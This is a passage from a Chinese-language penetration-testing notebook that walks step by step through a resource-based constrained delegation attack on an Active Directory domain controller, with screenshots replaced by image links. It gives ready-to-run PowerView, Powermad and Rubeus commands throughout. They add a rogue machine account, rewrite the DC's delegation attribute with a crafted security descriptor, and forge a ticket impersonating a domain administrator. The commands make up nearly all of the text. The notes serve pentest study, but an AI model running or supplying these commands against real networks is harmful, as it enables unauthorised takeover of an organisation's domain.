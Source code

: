 	获取域管理员
	>Get-DomainUser|select -First 1
	域对象信息
	>Get-DomainObject -Identity 'DC=zone,DC=com'
	ms-ds-machineaccountquota允许非特权用户将最多 10 台计算机连接到域
![image](/assets/Pentest_Note/master/img/406.png)

	查看有没有设置msDS-AllowedToActOnBehalfOfOtherIdentity策略
	>Get-DomainComputer dc|select name, msDS-AllowedToActOnBehalfOfOtherIdentity
![image](/assets/Pentest_Note/master/img/407.png)

	用powermad添加一具备SPN的机器账户
	https://github.com/Kevin-Robertson/Powermad
	>New-MachineAccount -MachineAccount newcom
![image](/assets/Pentest_Note/master/img/408.png)

	或
	>$pass = ConvertTo-SecureString '123qwe!@#' -AsPlainText –Force
	>New-MachineAccount –MachineAccount newcom -Password $pass
	或
	>New-MachineAccount -MachineAccount newcom -Password $(ConvertTo-SecureString '123qwe!@#' -AsPlainText -Force)
![image](/assets/Pentest_Note/master/img/409.png)

	获取添加的机器账户的SID
![image](/assets/Pentest_Note/master/img/410.png)

	将添加的机器账户的SID设置给DC的msDS-AllowedToActOnBehalfOfOtherIdentity参数
	>$SD=New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2346829310-1781191092-2540298887-1122)"; $SDBytes = New-Object byte[] ($SD.BinaryLength);$SD.GetBinaryForm($SDBytes, 0);Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
	设置完成后查看
![image](/assets/Pentest_Note/master/img/411.png)

	配置ACL允许访问
	>$RawBytes=Get-DomainComputer dc -Properties 'msds-allowedtoactonbehalfofotheridentity' |select -expand msds-allowedtoactonbehalfofotheridentity;$Descriptor= New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes,0;$Descriptor.DiscretionaryAcl
![image](/assets/Pentest_Note/master/img/412.png)

	此时使用创建的机器账户的hash可伪造域管
	先获取newcom的NTLM
	>Rubeus.exe hash /password:123qwe!@# /user:newcom /domain:zone.com
![image](/assets/Pentest_Note/master/img/413.png)

	导入票据伪造域管用户访问cifs服务
	>Rubeus.exe s4u /user:newcom$ /rc4:00AFFD88FA323B00D4560B F9FEF0EC2F /impersonateuser:godadmin /msdsspn:cifs/dc.zone.com /ptt
![image](/assets/Pentest_Note/master/img/414.png)

	成功获取到godadmin的tgs
![image](/assets/Pentest_Note/master/img/415.png)
![image](/assets/Pentest_Note/master/img/416.png)
![image](/assets/Pentest_Note/master/img/417.png)
